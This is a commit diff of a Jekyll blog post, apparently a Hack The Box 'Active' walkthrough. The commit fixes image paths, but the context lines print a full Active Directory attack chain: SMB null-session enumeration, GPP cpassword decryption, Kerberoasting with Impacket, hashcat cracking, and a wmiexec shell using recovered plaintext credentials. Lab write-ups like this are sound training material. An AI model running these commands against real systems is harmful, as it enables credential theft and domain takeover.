

Before and after one commit to 13aus/blog, a Jekyll site: the page built from _posts/2026-10-24-active.md, in a window 1280 px wide and 1400 px high, scrolled down 1252 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update Active Post #2
Fixed image relative path issue, and excerpt property

````diff
--- a/_posts/2026-10-24-active.md
+++ b/_posts/2026-10-24-active.md
@@ -35,7 +35,7 @@ nmap -sT 10.129.75.74 -p- -Pn --disable-arp-ping -n -vv --reason --stats-every 8
 	- `--reason` - The reason why the port is in the state that it is in.  The response, or lack of response from the port.
 	- `--stats-every 8s` - Stats every 8 seconds.
 
-![[ActiveNmapScan.png]]
+![nmap scan]({{ '/assets/img/active/ActiveNmapScan.png' | relative_url }})
 
 SMB can sometimes contain valid credentials, so I started there.
 
@@ -44,11 +44,11 @@ SMB can sometimes contain valid credentials, so I started there.
 ```bash
 smbclient -L \\\\10.129.75.74\\ -N
 ```
-![[SMBclientShareListing.png]]
+![nmap scan]({{ '/assets/img/active/SMBclientShareListing.png' | relative_url }})
 
 The `Replication` share was accessible through a null session, so I proceeded to enumerate the share.  It didn't have much information but the `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\` path housed the `Groups.xml` file.
 
-![[GroupsXMLFind.png]]
+![nmap scan]({{ '/assets/img/active/GroupsXMLFind.png' | relative_url }})
 
 `Groups.xml` is a file associated with Group Policy Preferences (GPP). It is commonly found in older Windows Server environments, such as Windows Server 2008, and was designed to simplify administrative tasks across a domain. These tasks include mapping network drives, creating scheduled tasks, and configuring registry values.
 
@@ -56,13 +56,13 @@ In some cases, Group Policy Preferences can also be used to update local account
 
 The encrypted passwords are stored in the `cpassword` attribute within the XML file. Unfortunately, because Microsoft publicly documented the encryption key in MSDN, anyone with access to the encrypted value can decrypt it and recover the original password.
 
-![[CPasswordFoundinFile.png]]
+![nmap scan]({{ '/assets/img/active/CPasswordFoundinFile.png' | relative_url }})
 
 `gpp-decrypt` can be used to decrypt the password, which returns the plaintext `GPPstillStandingStrong2k18`.
 ```bash
 gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
 ```
-![[CrackingGPPPassword.png]]
+![nmap scan]({{ '/assets/img/active/CrackingGPPPassword.png' | relative_url }})
 
 The recovered credentials can be used to authenticate to the LDAP service and enumerate domain users.
 
@@ -72,7 +72,7 @@ The recovered credentials can be used to authenticate to the LDAP service and en
 ```bash
 ldapsearch -x -H ldap://10.129.74.54 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "DC=active,DC=htb" "(objectclass=user)"
 ```
-![[LDAPSearchResults.png]]
+![nmap scan]({{ '/assets/img/active/LDAPSearchResults.png' | relative_url }})
 The `Administrator` account is found with a Service Principal Name(SPN), which means that a service is running with the Administrator account.
 
 ## Foothold
@@ -82,19 +82,19 @@ Using the previously recovered credentials, `Impacket-GetUserSPNs` can request a
 impacket-GetUserSPNs active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.75.74 -request
 ```
 
-![[KerberoastingHash.png]]
+![nmap scan]({{ '/assets/img/active/KerberoastingHash.png' | relative_url }})
 
 The password hash can be copied into a file and then cracked with `hashcat` and the `rockyou.txt` wordlist.
 ```bash
 ./hashcat -a 0 -m 13100 ../hash/test.hash ../lists/rockyou.txt
 ```
-![[HashcatSuccess.png]]
+![nmap scan]({{ '/assets/img/active/HashcatSuccess.png' | relative_url }})
 
 With the Administrator account's password recovered, Impacket's `wmiexec` or `psexec` can be used to establish a remote shell with elevated privileges.
 ```bash
 impacket-wmiexec administrator:Ticketmaster1968@10.129.75.74
 ```
-![[RootAccess.png]]
+![nmap scan]({{ '/assets/img/active/RootAccess.png' | relative_url }})
 
 
 ## MITRE ATT&CK
````
Also changed, not shown: other parts of _posts/2026-10-24-active.md (+1 -1 lines).
